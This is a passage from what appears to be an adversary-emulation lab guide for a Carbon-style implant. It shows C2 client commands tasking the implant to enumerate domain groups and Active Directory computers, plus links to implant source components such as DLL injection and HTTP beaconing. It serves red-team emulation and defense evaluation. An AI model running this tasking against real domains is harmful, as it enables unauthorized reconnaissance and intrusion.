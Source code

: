 :arrow_right: Return to your control server output and confirm the registration of a new
CARBON-DLL implant on the domain controller.

:arrow_right: Return to your tasking window and task the new CARBON-DLL implant
with discovery commands to be run on the domain controller.

```bash
./evalsC2client.py --set-task a3e63922 '{"id": 0, "cmd": "net group /domain"}'
```
:heavy_exclamation_mark: Verify that the `Web Servers` and `Web Server Admins` groups are in the output.


* Wait 1 minute and then task CARBON-DLL to enumerate both groups for their members.
```bash
./evalsC2client.py --set-task a3e63922 '{"id": 1, "cmd": "net group \"Web Servers\" /domain && net group \"Web Server Admins\" /domain"}'
```

* Wait 1 minute and then task CARBON-DLL to enumerate the Active Directory
Computers.
```bash
./evalsC2client.py --set-task a3e63922 '{"id": 2, "cmd": "dsquery * -filter \"(&(objectclass=computer))\" -attr *"}'
```

* Ensure `khabibulin` is in the output and confirm the `Description` value is
"Adalwolfa Workstation".

```bash
grep 'cn: khabibulin' logs.txt -C 2 -i
```

* This should return:
  * > ```
    > objectClass: user
    > objectClass: computer
    > cn: khabibulin
    > description: Adalwolfa Workstation
    > distinguishedName: CN=khabibulin,CN=Computers,DC=skt,DC=local
    > ```

### :moyai: Source Code

* [Password spray batch script](password_spray.bat)
* [CARBON-DLL installer](CarbonInstaller_README.md)
  * [Drop components](file_handler.cpp#L178)
  * [Create Loader Service](service_handler.cpp#L170)
    * Service registry edits: [1](service_handler.cpp#L230), [2](service_handler.cpp#L284)
  * [Start Loader Service](service_handler.cpp#L354)
  * [Loader Service](service.cpp)
* [CARBON-DLL Orchestrator](Orchestrator_README.md)
  * [Comms Lib DLL Injection](injection.cpp#L454)
  * [Task Execution](tasking.cpp#L388)
* [CARBON-DLL Comms Lib](CommLib_README.md)
  * [Beacon and task/payload retrieval over HTTP](CommLib.cpp#L313)
  * [Upload task output over HTTP](CommLib.cpp#L342)
  * [Peer to peer communications over named pipes](NamedPipeP2p.cpp)
